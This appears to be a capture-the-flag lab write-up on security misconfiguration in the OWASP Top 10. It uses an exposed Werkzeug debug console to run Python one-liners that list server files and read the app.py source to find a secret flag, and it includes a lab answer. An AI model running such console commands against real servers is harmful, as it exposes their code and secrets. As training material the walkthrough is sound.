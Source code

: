 ### 12. 5. Security Misconfiguration

- <p>Use the Werkzeug console to run the following Python code to execute the <code>ls -l</code> command on the server:</p>

<pre class="language-python"><code>import os; print(os.popen("ls -l").read())</code></pre>

<p>What is the database file name (the one with the .db extension) in the current directory?</p>

![Guide image](./screenshots/owasp-top-10-2021-14.png)

**=> Answer: `todo.db`**

- <p>Modify the code to read the contents of the <code>app.py</code> file, which contains the <span style="font-size:1rem">application's </span><span style="font-size:1rem">source code. What is the value of the </span><code>secret_flag</code><span style="font-size:1rem"> variable in the source code?</span></p>

```bash
import os; print(os.popen("cat app.py").read())
```
